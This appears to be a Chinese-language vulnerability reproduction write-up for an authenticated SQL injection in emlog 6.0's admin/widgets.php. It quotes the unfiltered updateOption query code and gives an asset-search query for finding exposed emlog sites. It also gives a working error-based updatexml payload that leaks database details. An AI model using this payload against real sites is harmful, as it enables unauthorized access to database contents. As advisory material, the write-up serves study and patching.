





emlog widgets.php 后台SQL注入漏洞¶
漏洞描述¶
emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息
漏洞影响¶
emlog 6.0
网络测绘¶
app="EMLOG"
漏洞复现¶
产品主页：https://github.com/emlog/emlog

存在漏洞的文件为 admin/widgets.php

if ($action == 'compages') {
$wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
$widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
Option::updateOption("widgets{$wgNum}", $widgets);
$CACHE->updateCache('options');
emDirect("./widgets.php?activated=true&wg=$wgNum");
}
传参为 wgnum 和 widgets ，跟踪方法 updateOption

static function updateOption($name, $value, $isSyntax = false){
$DB = Database::getInstance();
$value = $isSyntax ? $value : "'$value'";
$DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
}
可以发现对传入的参数木有进行过滤，构造Payload
POST /admin/widgets.php?action=compages
widgets=1' and updatexml(0x3a,concat(1,(select user())),1)--
调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

